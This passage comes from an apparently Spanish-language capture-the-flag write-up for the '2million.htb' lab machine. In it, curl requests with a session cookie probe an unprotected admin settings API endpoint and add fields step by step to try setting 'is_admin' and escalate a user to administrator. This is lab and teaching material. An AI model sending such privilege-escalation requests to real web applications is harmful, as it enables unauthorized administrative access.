 Obtenemos un monton de rutas, de entre ellas nos llaman especialmente la atención los relacionados con `admin`.

Primero vamos a comprobar si somos administradores o no.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": false
}
```

Como era de esperar no somos administradores.

La ruta `/api/v1/admin/settings/update` tiene como descripción `"Update user settings"`, esto parece interesante ya que, de no estar protegida, podríamos llegar a cambiar parámetros de nuestro usuario como por ejemplo si somos `admin` o no.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

nos dice que el tipo de dato que le estamos pasando por PUT es invalido, vamos a probar con **json**.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d "{}" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Ahora nos dice que falta el campo email, vamos a añadir el email que hemos usado para registrarnos en la página.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Nos pide el campo `is_admin`, vamos a intentar darle el valor `true`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": "true"}' | jq

{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```
